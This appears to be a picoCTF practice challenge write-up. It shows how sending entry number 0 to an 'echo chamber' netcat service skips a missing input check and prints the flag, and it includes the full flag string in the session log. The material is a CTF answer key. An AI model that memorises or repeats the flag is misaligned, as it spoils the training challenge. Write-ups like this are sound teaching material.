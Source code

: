 # URL
https://play.picoctf.org/practice/challenge/252?category=6&difficulty=2&page=2

# Challenge
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!
The program's source code with the flag redacted can be downloaded here.
Connect to the program with netcat:
$ nc saturn.picoctf.net 59182

# Work:
* So, reviewing the code, I came across something interesting in the data_read() function
* <img width="812" height="160" alt="image" src="https://github.com/user-attachments/assets/16170dd0-fcaf-4a97-950f-db876bed89bc" />
* In this code, if the entry number equals 0, it will print the flag
```
rxile@MSI:~$ nc saturn.picoctf.net 59182
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Please enter the length of your data:
32
32
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
^C
rxile@MSI:~$ nc saturn.picoctf.net 59182
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
```
* In the code above, some data HAD to be passed into the database, so I included some filler "A's" to pass that requirement.
* Later, I input 0, and this printed the flag!

